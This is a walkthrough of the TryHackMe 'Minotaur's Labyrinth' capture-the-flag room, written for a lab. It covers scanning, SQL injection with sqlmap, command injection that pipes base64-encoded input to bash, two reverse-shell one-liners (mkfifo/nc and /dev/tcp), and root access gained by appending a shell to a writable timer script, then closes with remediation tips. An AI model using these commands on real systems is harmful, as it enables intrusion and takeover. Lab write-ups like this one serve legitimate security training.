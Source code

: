 TryHackMe <br>
Minotaur's Labyrinth
---

# Reconnaissance/Scanning:
I started off by scanning the network to see which ports were open/services running on the ports.
```
$ nmap -A -O -sC -sV -p- <machine_IP>
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/e3821ce0-8661-4890-8462-f1e089b7ca8d)

 Running gobuster to scan for directories.
 
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/82fb896c-3c8d-44e8-b0cd-f1d094f7141f)

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/a4213c0d-75e6-4c02-b09b-6db1563df783)

In the FTP server there’s a directory to look into.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/32b30ca9-a7fd-4d9a-92ac-3d1dde5fd997)

In that directory was a hidden directory and a text file. The text file didn’t show anything important.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/12c6ceac-0a52-46a6-9d55-012dd1515dc6)
 
In the hidden directory was the first flag and another text file.
 
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/1397bd66-68a9-41d3-86a9-3185be56c559)
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/6b5baabe-ca37-4d3a-9dbe-26f2c40ffe16)

This is what the text file keep_in_mind said:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/0617b694-d529-4786-8058-d5afb74c2bf0)
 
# Vulnerability assessment:
The /logs directory had a log file that showed some user credentials in plaintext!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/5b7941dd-c2e9-49a0-8b2d-e728edfecfdc)

Once logged in on the main webpage, there’s a search bar that looks like it is showing potential tables or columns from a database.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/35437d67-06c9-4c47-bec1-80a72f5ac87b)
 
I fired up burpsuite to capture a request after sending a parameter in the searchbar and used that in sqlmap.
```
$ sqlmap -r /path/to/request/file --batch –dump
```
Looks like we got some usernames and hashes!
 
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/d9192b7c-f894-45fe-9e48-b40cb47870de)
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/9ac1013e-55fd-4594-835e-6b2349bd5b30)

Crackstation[.]net cracked them easily since they’re just an md5 hash!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/89fcb0be-0c66-482c-a24f-dd20830ad960)
 
Upon logging into the webpage, the top nav bar showed the second flag.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/d5e3e0ad-7794-453a-b449-8a400c9e5c27)
 
When viewing the source code, I saw this comment.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/e112f819-f9cd-41bb-81d9-aa809c6660bf)
 
And up at the top, the “Secret_Stuff” link leads to /echo.php

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/ea224b45-47eb-4414-88e3-fbf42a025962)
 
# Exploit:
Visiting that page:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/ee70c242-0914-495e-9238-291481e3fdc1)
 
Thanks to the hint from TryHackMe, it let me know which characters are filtered.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/15c7de88-e4fc-44f1-9f48-862123c24987)
 
Luckily, it looks like the pipe character isn’t filtered, so I tested the command `whoami` piped to `bash` because just entering a command will get echoed.
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/c0ca6b45-1d48-43b5-8ec3-30b4088e1b4d)
 
Since so many characters are filtered, I can’t use a regular command to try to get a reverse shell. <br>
That means I’ll have to encode it and try that way. Base64 is great for encoding. <br>
The reverse shell one liner I used was:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local_IP>  <PORT> >/tmp/f
```
I encoded that and removed the equal sign at the end since it was one of the filtered characters.
```
<encoded_text> | base64 -d | bash 
```
After sending that, I got a reverse shell!
 
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/93f3084e-7752-4802-bd3b-7b2cf828c2f2)

Checking for hidden files.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/ac7a23f3-c5e3-4154-aa2f-dbb52ac0456c)

That looks like a good file to inspect!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/b56cffe3-a516-463b-8239-bde2f89e9da6)

Now to see the other users in the /home directory.
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/8e0d1fc9-da88-4230-9149-028afa2a6b71)
 
In this user’s home directory was the user flag.
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/4f3aaaf6-e629-4d36-ad4d-70c19c915773)
 
# Privilege Escalation:
Looking for a way to escalate privileges, I didn’t have any luck looking at the cronjobs,  <br>
no password so I couldn’t run `sudo -l`, and no SUID binaries I could exploit. <br>
I started checking for hidden files or anything useful in the root directory.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/c0720a62-e7d0-4fbf-afc0-02098644c54c)
 
That’s interesting, a directory called timers that’s writable by all users. <br>
In one of the files on the FTP server there was mention of keeping things on a timer..

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/b1a3e3f2-e395-4b3a-965f-66efba380e9f)
 
In that directory was a script that starts another bash shell. <br>
Well, since I can write to that file I appended a reverse shell one liner to the end of it.
```
$ echo “bash -i >& /dev/tcp/IP_ADDRESS/8080 0>&1” >> timer.sh
```
Shortly after that I got a reverse shell as root.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/ed2c4693-5d45-4d0e-a149-bd22b2c60bfa)
 
Time to grab the root flag in the root directory.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/73005585-05fe-4212-aed9-45cb57e89d07)
 
# Reporting:
•	Disable anonymous login on FTP servers. <br>
•	Check data sanitization/filtered expressions on webpages. <br>
•	Ensure correct permissions are assigned on all files, especially executable files. <br>
•	Don’t store credentials in plaintext. <br>
•	Use a stronger hashing algorithm in databases to protect information.



































